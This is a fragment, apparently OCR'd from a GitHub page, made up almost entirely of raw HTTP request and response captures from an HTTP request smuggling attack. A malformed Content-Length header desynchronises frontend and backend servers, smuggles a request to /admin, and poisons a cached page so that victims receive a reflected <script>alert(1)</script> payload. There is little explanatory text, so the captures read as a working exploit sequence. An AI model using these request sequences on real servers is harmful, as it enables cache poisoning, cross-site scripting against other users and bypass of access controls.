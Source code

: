 ```
GET /assets?<script>alert(1)</script> HTTP/1.1
X: Y

----- 3rd request victims ----
GET /cacheme.html HTTP/1.1
Host: <redacted>
```

##### responses from backend server perspective

```
POST /anything HTTP/1.1
Host: <redacted>
Content-length:
 44
 
GET /doesnot-matter HTTP/1.1
Content-Length: 150
Foo:

------- 2nd request -----
GET /admin HTTP/1.1
Host: <redacted>

----- 3rd request -------

HEAD /index.html HTTP/1.1
Host: <redacted>

----- 4th request ------
GET /assets?<script>alert(1)</script> HTTP/1.1
X: YGET /cachme.html HTTP/1.1
Host: <redacted>
```

##### responses parsed by the frontend server

```
HTTP/1.1 200 OK
----- 2nd response ----
HTTP/1.1 200 OK
Location: /admin

----- 3rd response ---
HTTP/1.1 200 OK
Content-Length: 56670
Content-Type: text/html

HTTP/1.1 302 Found
Location: /Logon?returnUrl=/<script>…
```

----
